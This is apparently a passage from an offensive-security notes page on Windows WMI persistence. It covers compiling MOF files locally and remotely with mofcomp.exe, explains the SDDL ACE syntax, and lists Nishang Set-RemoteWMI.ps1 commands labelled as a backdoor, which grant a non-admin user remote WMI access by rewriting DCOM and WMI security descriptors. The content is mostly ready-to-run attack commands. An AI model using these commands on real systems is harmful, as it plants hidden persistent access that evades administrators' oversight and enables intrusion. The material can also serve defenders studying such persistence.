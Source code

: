 or even by compiling MOF files:

```powershell
# Compile a MOF file on the local machine
mofcomp.exe c:\users\administrator\test.mof

# Compile a MOF file on a remote machine (need privs)
mofcomp.exe -N \\COMPUTER01\root\subscription c:\users\administrator\test.mof

```

### Persistence - WMI Security Descriptors

It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of DCOM and WMI namespace to allow access to non-admin users. It obviousely requires admin privileges. 

[Security Descriptor Definition Language](https://itconnect.uw.edu/wares/msinf/other-help/understanding-sddl-syntax/) uses ACE for both DACL and SACL:

```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```
which for built-in administrators for WMI namespaces becomes:

```
A;CI;CCDCLCSWRPWPRCWD;;;SID
```

| Field | Example |
| --- | --- |
| ace_type | "A" - Access Allowed | 
| ace_flags | "CI" - Container Inherit |
| rights | "CC" - Create Child<br>"DC" - Delete Child<br>"LC" - List Children<br>"SW" - Self Write<br>"RP" - Read Property<br>"WP" - Write Property<br>"RC" - Read Control<br>"WD" - Write DAC|
| account_sid | SID that identifies the trustee (user, group, ...) on which the ACE applies |

`Nishang` script `Set-RemoteWMI.ps1` can be used to modify Security Descriptors of DCOM and WMI namespaces to provide non-admin domain users access to WMI:

```powershell
# Nishang
# backdoor/Set-RemoteWMI.ps1

# Add permissions on the local machine for labuser to access all namespaces remotely.
Set-RemoteWMI -UserName labuser –Verbose

# Add permissions on the remote machine for labuser to access all namespaces remotely.
Set-RemoteWMI -UserName labuser -ComputerName 192.168.0.34 -Credential admin -Verbose

# Add permissions on the remote machine for labuser to access root\cimv2 and nested namespaces remotely.
Set-RemoteWMI -UserName labuser -ComputerName 192.168.0.34 -Credential admin –namespace 'root\cimv2' -Verbose

# Add permissions on the remote machine for labuser to access only root\cimv2 remotely.
Set-RemoteWMI -UserName labuser -ComputerName 192.168.0.34 -Credential admin –namespace 'root\cimv2' -NotAllNamespaces -Verbose

# Remove the permissions added for labuser from the remote machine.
Set-RemoteWMI -UserName labuser -ComputerName 192.168.0.34 -Credential admin -Remove -Verbose
```
